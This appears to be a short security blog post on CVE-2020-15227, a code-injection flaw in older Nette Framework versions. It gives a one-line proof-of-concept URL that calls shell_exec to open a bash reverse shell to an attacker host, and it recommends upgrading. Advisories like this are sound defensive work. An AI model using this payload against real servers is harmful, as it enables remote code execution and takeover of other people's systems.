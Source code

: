 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Nette Framework: CVE-2020-15227"
date:   2020-10-16 00:15:00 +1000
categories:
  - Web Application Pentest
  - CVE
tags:
  - CVE-2020-15227
  - RCE
  - PHP
---
```


# Nette Framework:
Nette Framework is an open-source framework for creating web applications in PHP 5 and 7. It supports AJAX, DRY, KISS, MVC and code reusability. Original author of the framework is David Grudl, but further development is now maintained by the Nette Foundation organization. Nette is a free software released under both[2] the New BSD license and the GNU GPL version 2 or 3.

# Issue Description:
Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and nette/nette versions prior to 2.0.19 and 2.1.13 are vulnerable to an code injection attack by passing specially formed parameters to URL that may possibly leading to RCE.

Thanks to Cyku Hong

# Proof of Concept:
{% highlight python linenos%}
/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
{% endhighlight %}

# Impact:

Code injection, possible remote code execution.

# Recommendation:

Update Nette Framework to the latest version.
